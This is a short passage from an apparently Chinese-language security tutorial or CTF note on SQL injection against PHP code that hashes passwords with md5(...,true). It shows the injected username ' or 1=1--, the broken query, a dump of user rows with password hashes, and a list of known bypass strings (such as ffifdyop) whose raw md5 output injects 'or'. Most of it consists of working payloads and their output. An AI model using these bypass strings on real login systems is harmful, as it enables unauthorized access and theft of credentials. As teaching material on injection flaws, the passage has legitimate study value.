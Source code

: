 传入`username= or 1=1-- &password=128`

```php
string ' or 1=1-- ' (length=10)
string '128' (length=3)
string 'SELECT id,username,password FROM test WHERE password="v�an���l���q��\" and username=" or 1=1-- "' (length=97)
id:1 username:a password:962012d09b8170d912f0669f6d7d9d07
id:2 username:b password:912ec803b2ce49e4a541068d495ab570
id:3 username:c password:fd2cc6c54239c40495a0d3a93b6380eb
id:4 username:d password:81dc9bdb52d04dc20036dbd8313ed055
```

常用的绕过字符串

```php
<?php
var_dump(md5("128",true));
var_dump(md5("ffifdyop",true));
var_dump(md5("129581926211651571912466741651878684928",true));
?>
```

```
string 'v�an���l���q��\' (length=16)
string ''or'6�]��!r,��b' (length=16)
string '�T0D��o#��'or'8' (length=16)
```